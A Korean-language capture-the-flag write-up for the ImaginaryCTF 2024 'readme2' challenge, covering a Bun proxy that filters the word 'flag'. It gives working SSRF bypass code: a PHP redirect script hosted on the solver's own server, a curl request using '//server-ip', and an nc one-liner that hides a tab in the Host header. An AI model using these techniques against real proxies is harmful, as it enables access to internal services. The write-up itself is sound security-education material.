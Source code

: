 ```javascript
	async fetch(req) {
		if (req.url.includes('flag')) return new Response('Nope', { status: 403 })
		const headerContainsFlag = [...req.headers.entries()].some(([k, v]) => k.includes('flag') || v.includes('flag'))
		if (headerContainsFlag) return new Response('Nope', { status: 403 })
		const url = new URL(req.url)

		if (url.href.includes('flag')) return new Response('Nope', { status: 403 })
		return fetch(new URL(url.pathname + url.search, 'http://localhost:3000/'), {
			method: req.method,
			headers: req.headers,
			body: req.body
		})
	},
	port: 4000 // only this port are exposed to the public
})
```                   
       
`/flag.txt` 요청을 보내면, 플래그를 획득할 수 있다. 하지만, URL 경로나 HTTP Header에 `flag` 키워드를 넣을 수 없도록 제한되어있어 이를 우회해야한다.      

```javascript
new URL("//foo.com", "https://example.com"); 
// => 'https://foo.com' (see relative URLs)
```       
            
https://developer.mozilla.org/ko/docs/Web/API/URL/URL    
       
MDN에서 `new URL()`에 대해 찾아보니 위와 같은 예시가 있었다. `new URL()`에서 baseURL로 `https://example.com`를 설정하였더라도, `//`를 사용해 다른 호스트로 요청을 보낼 수 있다는 것이다.           
       
그래서, `//server-ip`로 요청을 보내 응답 헤더를 `Location: http://localhost:3000/flag.txt`로 설정해 리다이렉션시켜 SSRF 취약점을 발생시켰다. 이 방법으로 문제를 해결했지만, 대회가 끝나고 나서 언인텐임을 알게 되었다.              
        
<img src="/assets/images/ctf/2024/imaginary/readme2/discord.jpg" width=700px>       
                
```bash
printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc readme2.chal.imaginaryctf.org 80
```        
의도한 풀이는 `Host Header`에 `/flag.txt`를 넣고 `\t`으로 `flag` 키워드를 우회하는 것이었다. 이 방식이 우회가 가능한 이유는 `whatwg's url parsing algorithm`에서 `\t`를 무시하고 처리하기 때문이다. 

## Exploit Code     

```php
<?php
    header("Location: http://127.0.0.1:3000/flag.txt");
?>
```                 
```bash      
curl http://readme2.chal.imaginaryctf.org//server-ip 
```      
      
<img src="/assets/images/ctf/2024/imaginary/readme2/flag.jpg" width=700px>       
      
## Flag 
ictf{just_a_funny_bug_in_bun_http_handling}    